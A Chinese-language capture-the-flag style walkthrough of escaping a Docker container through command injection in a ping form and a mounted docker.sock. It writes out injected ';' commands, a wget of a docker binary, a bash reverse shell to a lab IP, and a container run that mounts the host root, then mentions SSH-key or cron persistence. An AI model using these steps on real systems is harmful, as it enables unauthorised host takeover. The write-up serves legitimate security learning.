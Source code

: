 # DIND (docker-in-docker) exploitation

## Story

![msedge_1snnasL6N1](../images/2023-04/msedge_1snnasL6N1.png)

## Exploitation

输入**127.0.0.1**，从回显中可以知道执行了`ping`命令。

![msedge_wqXGGiw2I6](../images/2023-04/msedge_wqXGGiw2I6.png)

使用`;`或者`&&`执行多行命令。

![msedge_aksvwilKCk](../images/2023-04/msedge_aksvwilKCk.png)

到这里，利用简单的命令执行的绕过，我们已经拿到了该docker的权限。

根据题干，我们可以知道这里存在docker逃逸，执行`;mount`命令查看挂载文件

原先的输出换行弄得不是很好，我们直接看源代码

![msedge_LM2GPRV8AT](../images/2023-04/msedge_LM2GPRV8AT.png)

可以发现挂载了**/custom/docker/docker.sock**，参考这篇[文章](https://blog.csdn.net/weixin_53090346/article/details/129708068#:~:text=造成逃逸的原因是,er中造成逃逸。)里面的**危险挂载Docker Socket逃逸**

> Docker采用的是C/S架构即客户端服务端格式，可以通过以下命令操作目标的docker。
> unix:///var/run/docker.sock
> tcp://host:port
> fd://socketfd
> 造成逃逸的原因是将宿主机的/var/run/docker.sock文件挂载到docker容器中，导致docker容器中可以操作宿主机的docker，进而能新创建docker从而将根目录挂载到新创建的docker中造成逃逸。

通过容器中挂载的**docker.sock**与宿主机的`docker`命令进行通信，从而控制宿主机的`docker`命令。

但是前提是我们需要一个可执行的二进制`docker`文件。

```
;wget https://download.docker.com/linux/static/stable/x86_64/docker-19.03.9.tgz -O /tmp/docker-19.03.9.tgz

;tar -xvzf /tmp/docker-19.03.9.tgz -C /tmp/
```

现在我们可以利用挂载的**docker.sock**与宿主机进行通信了

```
;/tmp/docker/docker -H unix:///custom/docker/docker.sock images
```

![msedge_5RgZ6XNQbY](../images/2023-04/msedge_5RgZ6XNQbY.png)

可以看到，有很多的镜像，但是到这里还不算完，我们这里仅仅是获取宿主机`docker`命令的权限，我们的目标是获取宿主机的权限。

在docker容器中使用命令再允许一个docker容器，并将根目录挂载到docker容器目录中，写shell到定时任务

下载一个centos镜像

```
;/tmp/docker/docker -H unix:///custom/docker/docker.sock pull centos
```

![msedge_drcOGDJtcB](../images/2023-04/msedge_drcOGDJtcB.png)

做到这里，我发现这样执行效率也太低了，索性弹个shell出来。

```
bash -c "bash -i >& /dev/tcp/192.168.215.133/2333 0>&1"
```

kali这边接收shell

![vmware_2KXEVpu2F4](../images/2023-04/vmware_2KXEVpu2F4.png)

运行容器挂载目录

```
;/tmp/docker/docker -H unix:///custom/docker/docker.sock run -v /:/hack -i centos:latest /bin/bash
```

![vmware_4VCrGjQeku](../images/2023-04/vmware_4VCrGjQeku.png)

这时候可以获取宿主机的文件权限了，我们这边可以做的事情很多，无论SSH免密登录还是写入计划任务都是可以的。



